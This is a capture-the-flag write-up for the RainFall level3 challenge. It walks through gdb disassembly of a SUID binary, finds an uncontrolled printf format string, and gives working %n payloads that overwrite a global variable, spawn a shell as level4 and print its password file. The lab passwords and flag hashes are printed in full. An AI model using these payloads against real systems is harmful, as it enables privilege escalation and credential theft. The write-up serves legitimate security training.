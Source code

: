 Login as `level3`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level3
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on :4242
level3@192.168.1.28's password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level31
```
A `SUID` executable is located in the home directory.
```shell
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```
Print all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  v
0x0804851a  main
```
`v()` function has a conditional call to `system()` on line `111` with `/bin/sh` as a parameter. Some value stored in `0x804988c` must to be equal to 0x40.
```gdb
(gdb) disassemble v
Dump of assembler code for function v:
   [...]
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   [...]
End of assembler dump.
(gdb) x 0x804860d
0x804860d:	 "/bin/sh"
```
A bit earlier, `printf()` is called with  without format string. It cause [FSA](https://owasp.org/www-community/attacks/Format_string_attack) aka [UFS](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability.
```gdb
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
Man page of `printf` has a SECURITY CONSIDERATIONS section which says that _%n can be used to write arbitrary data to selected addresses_.

BSS section contains a variable `m` which is declared but have not been assigned a value.
This variable is used while comparing it to 64 in `if` condition.
```gdb
level3@RainFall:~$ objdump -t ./level3
[...]
0804988c g     O .bss	00000004              m
[...]
```
Using `%x` format tokens allows to print data/addresses from the call stack.
```shell
level3@RainFall:~$ ./level3
%08x %08x %08x %08x
00000200 b7fd1ac0 b7ff37d0 78383025
```
An offset at which the `argv` start should be find.
```shell
level3@RainFall:~$ for i in {0..100}; do echo "Offset: $i"; python -c "print 'AAAA' + '%08x '*$i" | ./level3; read; done
Offset: 0
AAAA

Offset: 1
AAAA00000200

Offset: 2
AAAA00000200 b7fd1ac0

Offset: 3
AAAA00000200 b7fd1ac0 b7ff37d0

Offset: 4
AAAA00000200 b7fd1ac0 b7ff37d0 41414141

Offset: 5
AAAA00000200 b7fd1ac0 b7ff37d0 41414141 78383025
```

```shell
level3@RainFall:~$ (python -c "print 'A'*60 + '\x8c\x98\x04\x08%19\$n'"; cat -) | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
64/4=16
Offset between 4 and 19 could be used to write 64 in m
```gdb
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08'*16 + '%4\$n'"; echo "cat /home/user/level4/.pass") | ./level3
�����������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
level3@RainFall:~$ for i in {4..19}; do echo $i; (python -c "print '\x8c\x98\x04\x08'*16 + '%$i\$n'"; echo "cat /home/user/level4/.pass") | ./level3; done
```
